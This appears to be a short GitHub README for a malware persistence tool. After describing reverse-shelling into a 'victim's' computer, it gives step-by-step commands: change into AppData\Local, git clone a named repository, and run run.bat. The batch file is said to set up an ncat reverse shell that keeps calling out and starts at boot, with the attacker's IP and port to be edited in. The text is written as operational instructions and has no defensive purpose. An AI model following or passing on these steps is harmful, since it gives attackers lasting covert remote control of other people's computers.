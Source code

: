 Once you reverse shell into victims computer, CD into the appdatta, local file and do git clone The link to this gitfile and run Run.bat

you may need to change the Ip and port in (ncat.bat)

what this does is creates an easy reverse shell that is always requesting a connection and is also enabled on startup 


steps:

open powershell

Reverse Shell into victims PC

CD into AppData

CD into local

type in git clone https://github.com/1DollarCoin/yess.git

CD into yess

type start run.bat

and you should now have a permanent reverse shell
